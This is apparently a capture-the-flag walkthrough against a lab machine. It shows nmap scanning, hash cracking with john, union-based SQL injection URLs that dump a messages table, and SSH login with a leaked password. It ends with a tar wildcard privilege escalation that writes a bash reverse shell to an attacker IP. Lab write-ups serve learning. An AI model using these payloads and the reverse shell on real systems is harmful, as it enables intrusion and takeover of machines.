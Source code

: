 ```sudo nmap -sC -sV -Pn 10.10.27.191```

We can see the usernames and passwords. The password looks like bcrypt hash. Let's try to crack it with john the ripper.

```john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

While waiting for john to crack the hash, let's see what other information we can get from the database. 

In the table names that we got earlier, we know that ```items``` is a table for listing but there is another table called ```messages``` that we dont know what it is for. Let's try to enumerate it.

```http://10.10.210.129/admin?user=0 union select 1,group\_concat(column\_name),3,4 from information\_schema .columns where table\_name = 'messages'```

![sqli_column_message](img/sqli_column_message.png)

Looks very interesting. Let's try to get the data from the table.

```http://10.10.210.129/admin?user=0 union select 1,group\_concat(message\_content,':',user\_from,':',user\_to SEPARATOR '&lt;br&gt;'),3,4 from messages```

![sqli_message](img/sqli_message.png)

What do you know!? We have an automated message to user 3 from user 1 about his ssh password. Now we know that user 3 is 'jake'. Let's try to ssh to his account.

![shell](img/shell.png)

Great! We have a shell. Let's try to get the user flag and stop john from cracking the hash.

![user_flag](img/user_flag.png)

### Privilege Escalation

Let's start with ```id``` and ```sudo -l```

![priv_es](img/priv_es.png)

Great! We can run backup.sh as 'michael'. Let's check out the backup.sh file.

![priv_es_1](img/priv_es_1.png)

![priv_es_2](img/priv_es_22.png)

After some research, I found that we can gain privelege escalation by using the ```--checkpoint=1``` and ```--checkpoint-action=exec=sh``` options of tar. We also know that we can write in ```/opt/backups/``` folder. Let's try it out

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

This whole thing will be interpreted as ```tar -cf /opt/backups/backup.tar --checkpoint=1 --checkpoint-action=exec=sh shell.sh```

After some more research, I found another useful resource that explains how to use ```--checkpoint``` and ```--checkpoint-action``` options of tar. https://www.gnu.org/software/tar/manual/html_section/checkpoints.html

Our command looks like this

```
echo "bash -c 'bash -i >& /dev/tcp/{OUR_IP}/4545 0>&1'" > shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
chmod 777 shell.sh
